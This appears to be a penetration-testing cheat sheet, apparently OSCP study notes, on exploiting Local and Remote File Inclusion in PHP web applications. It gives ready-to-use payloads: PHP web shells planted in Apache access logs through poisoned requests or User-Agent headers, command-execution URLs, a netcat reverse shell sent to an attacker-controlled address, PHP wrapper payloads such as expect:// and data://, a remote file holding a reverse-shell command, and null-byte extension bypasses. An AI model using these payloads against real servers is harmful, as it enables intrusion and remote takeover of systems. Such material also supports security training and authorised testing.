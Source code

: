 # File Inclusion

## Local File Inclusion

> The Local File Inclusion vulnerability allows an attacker to read a file from the vulnerable server (Directory Traversal), which occurs due to a programming error on the page. This vulnerability can lead the attacker to:
RCE, XSS, DOS...


Once identified a Directory Traversal vulnerability, we can try RCE using various techniques.
_____
### LFI Apache Poisoning Logs

#### Identifying Access log location

In order to execute this type of attack, it's crucial to identify the OS of the web server or the access log file location. Common Apache access file locations are:

* **RHEL/Red Hat/CentOS/Fedora Linux :** /var/log/httpd/access_log

* **FreeBSD Apache access log file location:** /var/log/httpd-access.log

* **Debian/Ubuntu Linux:** /var/log/apache2/access.log

* **Windows:** c:\xampp\apache\logs\access.log

#### Adding code in the log file

We can use nc or Burpsuite to create an invalid request that will be saved in the log file containing our payload:

```bash
#Connect to the server using Netcat and execute a bad request:
<?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?>
#Using Burpsuide, change User-Agent header like (insert in the middle):
User-Agent: Mozilla/5.0 <?php echo '<pre>' . shell_exec($_GET['cmd']) . </pre>;?> Gecko/210001310314 Firefox.....
```

#### RCE

Once the payload is in the log file it's time to search the file using the Directory Traversal vulnerability to find the log file and set a value to the "cmd" parameter which will execute system commands:

```bash
#Execute system commands (change $SYSTEMCOMMAND):
.php?file=c:\xampp\apache\logs\access.log&cmd=$SYSTEMCOMMAND
#Reverse shell using netcat:
.php?file=c:\xampp\apache\logs\access.log&cmd=nc.exe -e cmd.exe $IPADDRESS $PORT
```

#### Wrappers

PHP provides protocol ["wrappers"](https://www.php.net/manual/en/wrappers.php) that we can use to exploit Directory Traversal or LFI vulnerabilities.

```bash
.php?file=expect://whoami

.php?page=data:text/plain;,<?php echo shell_exec($_GET['cmd']);?>

.php?page=data:text/plain;,<?php echo shell_exec("whoami");?>
```

#### LFI to RCE with SMTP

Check ippsec video on "Beep HTB Machine"
 _____
 _____

## Remote File Inclusion

Same as LFI but referencing external scripts:

```bash
#Example:
.php?file=http://$IPADDRESS/$FILE.txt
#Content of $FILE can be (make the file with .txt extension but containing the php code inside):
<?php echo shell_exec("nc.exe $IPADDRESS $PORT -e cmd.exe") ?>
<?php echo shell_exec($_GET['cmd']) ?>
```

#### RCE

```bash
.php?file=http://$IPADDRESS/$FILE.txt&cmd=$COMMAND
```

_____

## Bypass file extensions

If there is a server side adding extensions to files (like .php), we can try to use Null byte (%00) or question mark (?) to bypass:

```bash
.php?file=http://$IPADDRESS/$FILE.txt%00
.php?file=http://$IPADDRESS/$FILE.txt?
```

[Awakened 1712 github](https://awakened1712.github.io/oscp/oscp-lfi-rfi/)
